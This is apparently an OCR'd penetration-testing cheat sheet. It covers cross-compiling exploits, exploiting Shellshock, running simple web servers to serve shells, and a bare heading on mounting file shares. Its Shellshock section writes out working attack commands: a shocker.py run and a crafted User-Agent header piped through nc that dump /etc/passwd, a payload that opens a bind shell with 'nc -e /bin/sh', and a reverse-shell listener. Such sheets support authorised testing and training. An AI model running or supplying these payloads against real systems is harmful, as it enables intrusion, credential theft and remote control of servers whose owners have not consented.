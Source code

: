

# Cross Compiling Exploits
==========================
gcc -m32 -o output32 hello.c (32 bit)
gcc -m64 -o output hello.c (64 bit)



# Exploiting Common Vulnerabilities
===================================
# Exploiting Shellshock
# A tool to find and exploit servers vulnerable to Shellshock:
git clone https://github.com/nccgroup/shocker
./shocker.py -H TARGET  --command "/bin/cat /etc/passwd" -c /cgi-bin/status --verbose
cat file (view file contents)
echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; echo \$(</etc/passwd)\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc TARGET 80

# Shell Shock run bind shell
echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc -l -p 9999 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc TARGET 80

# Shell Shock reverse Shell
nc -l -p 443



# Simple Local Web Servers
==========================
# Python local web server command, handy for serving up shells and exploits on an attacking machine.

COMMAND							DESCRIPTION
python -m SimpleHTTPServer 80				Run a basic http server, great for serving up shells etc
python3 -m http.server					Run a basic Python3 http server, great for serving up shells etc
ruby -rwebrick -e "WEBrick::HTTPServer.new (:Port => 80, :DocumentRoot => Dir.pwd).start"	Run a ruby webrick basic http server
php -S 0.0.0.0:80					Run a basic PHP http server



# Mounting File Shares
======================
#How to mount NFS / CIFS, Windows and Linux file shares.
